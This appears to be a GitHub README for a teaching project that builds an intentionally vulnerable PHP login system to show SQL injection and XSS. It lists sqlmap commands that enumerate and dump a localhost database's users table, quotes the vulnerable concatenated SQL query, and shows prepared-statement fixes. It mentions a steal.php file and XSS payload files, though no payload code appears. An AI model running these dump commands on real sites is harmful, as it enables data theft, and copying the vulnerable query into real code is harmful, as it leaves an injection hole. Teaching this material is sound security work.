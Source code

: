 <h1 align="center">Secure Login System</h1>

We created a login system, for the backend we use PHP and MySQL for the database and on the frontend we used HTML/CSS. 
The purpose of this project is to show how code becomes vulnerable to SQL injection.
We will analyze and perform SQL Injection attacks and Cross-Site Scripting attacks to see how they work when we do not secure the appropriate code. 
We'll use some attack tools like SQLMap. 

The project has three parts:

1.Secure Login System with Non-Sanitizing Code
Attacks like SQL Injection work here, as well as attacks like Cross-Site Scripting (XSS).
    This code is intentionally vulnerable to demonstrate:

    How legacy PHP applications become vulnerable
    Why string concatenation in SQL is dangerous
    How sqlmap and other tools exploit these weaknesses
    The importance of modern PHP security practices

[secure_sqli_vulnerable_xss.php](https://github.com/cipriancyberspace/securewebapplication/blob/233d578e923a9ef875144f9e56649e0006b6384d/Secure_Login_System/secure_sqli_vulnerable_xss.php) contains the code responsible for simulating SQL injection attacks with sqlmap. We will analyze below how the attack mechanism works and the consequences when code lacks proper sanitization.

2.Secure Login System with Partial Sanitizing Code
Attacks like SQL Injection don't work here, but there are some vulnerabilities related to Cross-Site Scripting (XSS).

The [vulnerable_login_form.php](https://github.com/cipriancyberspace/securewebapplication/blob/6446f90b9c608a4dc2e249c212e0f0be46d18ce2/Secure_Login_System/vulnerable_login_form.php) file demonstrates code that has been sanitized to prevent SQL injection attacks while maintaining vulnerability to XSS attacks, together with supporting files including steal.php, dashboard.php, and payload files responsible for XSS attack vectors.

3.Secure Login System with Complete Sanitizing Code
In this part, we have protected the code against both threats. Also, I will show you how to implement CAPTCHA for brute force protection.

<h1 align="center">1.Secure Login System with Non-Sanitizing Code</h1>

![Sqlmap](https://raw.githubusercontent.com/cipriancyberspace/securewebapplication/99e7e8d24c04397303853220b9ae101d9e12e940/Secure_Login_System/images/sqlmap.png)



Sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. 
It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, 
over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/ee5612aa8bd9970e35df345d5f98699db35a3003/Secure_Login_System/images/sqlmap_1.png)

<strong> 1.SQLMap Command Breakdown: </strong>
<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" --data="username=test&password=test" --dbs --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/1bf4ec6c5278162c33acfffa401df1ce9bfb6bfb/Secure_Login_System/images/sqlmap_3.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/eff2084c859e84b41a33be3071eaf471de9b0d7e/Secure_Login_System/images/sqlmap_2.png)

<strong> 2.Explore your database: </strong>
<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db --tables --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/9086268e64a0716507f5dc933ce2bfb70513775b/Secure_Login_System/images/sqlmap_4.png)

<strong> 3.Dump user data: </strong>

<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db -T users --dump --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/f0b283ed11636000979a965a8ce7c080b99c5ea2/Secure_Login_System/images/sqlmap_5.png)

<strong> 4.Get database schema: </strong>

<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db -T users --columns --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/e4dc111aa3704427855dbe08de21b97209472a2a/Secure_Login_System/images/sqlmap_6.png)



⚠️ Why This Works 
Vulnerable PHP code:
<pre> <code>$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>
SQLMap exploits this by injecting payloads that break out of the SQL query, allowing it to execute additional SQL commands to enumerate databases.

Primary Vulnerability Location:
Line 78-82 - The main SQL injection vulnerability:


<pre> <code>/ VULNERABLE CODE - Direct string concatenation
$user = $_POST['username'];  // ❌ RAW user input
$pass = $_POST['password'];  // ❌ RAW user input

// ❌ DANGEROUS: Direct concatenation into SQL query
$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>

Secure Alternative with Prepared Statements:

<pre> <code>// Proper sanitization using prepared statements
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $user, $pass);  // "ss" = two strings
$stmt->execute();
$result = $stmt->get_result();</code> </pre>

Alternative with Input Escaping:

<pre> <code>// Basic escaping (less secure than prepared statements)
$user = $conn->real_escape_string($_POST['username']);
$pass = $conn->real_escape_string($_POST['password']);
$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>

<h1 align="center">2.Secure Login System with Partial Sanitizing Code</h1>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_1.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_2.png)



![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_3.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_4.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_5.png)




